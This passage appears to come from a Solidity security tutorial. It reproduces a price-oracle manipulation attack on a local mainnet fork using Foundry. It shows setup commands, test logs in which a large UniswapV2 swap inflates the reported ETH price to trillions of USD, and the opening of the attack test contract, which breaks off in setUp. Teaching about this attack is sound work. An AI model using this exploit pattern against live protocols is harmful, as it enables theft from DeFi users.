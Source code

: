 We will use Foundry to reproduce the manipulation attack on the oracle because it is fast and allows us to create a local fork of the mainnet for testing. If you are not familiar with Foundry, you can read [WTF Solidity Tools T07: Foundry](https://github.com/AmazingAng/WTFSolidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md).

1. After installing Foundry, start a new project and install the OpenZeppelin library by running the following command in the command line:
  ```shell
  forge init Oracle
  cd Oracle
  forge install Openzeppelin/openzeppelin-contracts
  ```

2. Create an `.env` environment variable file in the root directory and add the mainnet rpc to create a local testnet.

  ```
  MAINNET_RPC_URL= https://rpc.ankr.com/eth
  ```

3. Copy the code from this lesson, `Oracle.sol` and `Oracle.t.sol`, to the `src` and `test` folders respectively in the root directory, and then start the attack script with the following command:

  ```
  forge test -vv --match-test testOracleAttack
  ```

4. We can see the attack result in the terminal. Before the attack, the oracle `getPrice()` gave a price of `1216 USD` for `ETH`, which is normal. However, after we bought `WETH` in the `WETH-BUSD` pool on UniswapV2 with `1,000,000` BUSD, the price given by the oracle was manipulated to `17,979,841,782,699 USD`. At this point, we can easily exchange `1 ETH` for 17 trillion `oUSD` and complete the attack.

  ```shell
  Running 1 test for test/Oracle.t.sol:OracleTest
  [PASS] testOracleAttack() (gas: 356524)
  Logs:
    1. ETH Price (before attack): 1216
    2. Swap 1,000,000 BUSD to WETH to manipulate the oracle
    3. ETH price (after attack): 17979841782699
    4. Minted 1797984178269 oUSD with 1 ETH (after attack)

  Test result: ok. 1 passed; 0 failed; finished in 262.94ms
  ```

Attack Code:

```solidity
// SPDX-License-Identifier: MIT
// english translation by 22X
pragma solidity ^0.8.4;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // Specify the forked block
```